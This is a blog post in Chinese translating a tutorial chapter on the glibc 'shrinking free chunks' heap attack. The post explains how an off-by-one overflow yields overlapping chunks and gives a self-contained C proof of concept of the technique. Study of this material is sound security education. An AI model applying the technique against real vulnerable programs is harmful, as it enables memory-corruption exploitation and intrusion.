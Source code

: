 ```yaml
---
title: Heap Exploitation系列翻译-12 Shrinking Free Chunks
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# Shrinking Free Chunks

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击在'[Glibc Adventures: The Forgotten Chunk](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)'中有详细描述. 它是利用单字节堆溢出(通常也被称作 '[off by one](https://en.wikipedia.org/wiki/Off-by-one_error)'). 这项攻击技术的目标是让'malloc'返回一个跟某一已分配堆块重叠的堆块, 该堆块目前也处在使用状态. 起始在内存中的3块连续堆块(`a`, `b`, `c`)被分配出来并且中间那块已经被释放了. 第一块堆块存在溢出漏洞, 可以利用溢出覆写中间堆块的'size'. 攻击者的最低有效字节是0, 也就'缩减'了堆块的大小. 接下来,从中间的空闲堆块中分配出两个small chunks(`b1` 和 `b2`). 第三个堆块的`prev_size`并没有得到更新, 因为`b`+`b->size`已经不再指向`c`, 实际上它指向的是在`c`之前的一块内存区域. 之后, `b1`和`c`都被释放, `c`仍旧认定`b`是处于空闲的(这是因为`prev_size`并没有更新,因此`c`-`c->prev_size`依旧指向`b`)并与`b`进行合并. 这也就导致了生成一个起始于`b`大空闲块并同时与`b2`相重叠了. 一个新的malloc将这个大堆块返回回来, 从而完成这项攻击. 下图总结了这些步骤:

![Summary of shrinking free chunks attack steps](/files/heap-exploitation/images/shrinking_free_chunks.png)

_图片来源: https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf_

考虑以下示例代码(下载完整版本: [这里](/files/heap-exploitation/files/shrinking_free_chunks.c))


```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[19];               // padding
};

void *a, *b, *c, *b1, *b2, *big;
struct chunk_structure *b_chunk, *c_chunk;

// Grab three consecutive chunks in memory
a = malloc(0x100);                            // at 0xfee010
b = malloc(0x200);                            // at 0xfee120
c = malloc(0x100);                            // at 0xfee330

b_chunk = (struct chunk_structure *)(b - 2*sizeof(size_t));
c_chunk = (struct chunk_structure *)(c - 2*sizeof(size_t));

// free b, now there is a large gap between 'a' and 'c' in memory
// b will end up in unsorted bin
free(b);

// Attacker overflows 'a' and overwrites least significant byte of b's size
// with 0x00. This will decrease b's size.
*(char *)&b_chunk->size = 0x00;

// Allocate another chunk
// 'b' will be used to service this chunk.
// c's previous size will not updated. In fact, the update will be done a few
// bytes before c's previous size as b's size has decreased.
// So, b + b->size is behind c.
// c will assume that the previous chunk (c - c->prev_size = b/b1) is free
b1 = malloc(0x80);                           // at 0xfee120

// Allocate another chunk
// This will come directly after b1
b2 = malloc(0x80);                           // at 0xfee1b0
strcpy(b2, "victim's data");

// Free b1
free(b1);

// Free c
// This will now consolidate with b/b1 thereby merging b2 within it
// This is because c's prev_in_use bit is still 0 and its previous size
// points to b/b1
free(c);

// Allocate a big chunk to cover b2's memory as well
big = malloc(0x200);                          // at 0xfee120
memset(big, 0x41, 0x200 - 1);

printf("%s\n", (char *)b2);       // Prints AAAAAAAAAAA... !
```

`big`现在指向一开始的`b`堆块并且与`b2`重叠. 更改`big`的内容会改变`b2`的内容, 即时两个堆块都不会被释放.

值得注意的是, 与缩减`b`块相反, 攻击者其实也可以增加`b`块的大小. 这也同样可以造成类似情况的重叠. 当'malloc'申请另一个更大的堆块, `b`就会用于满足这个申请需求, 这样`c`的内存也会作为新堆块的一部分返回回来.
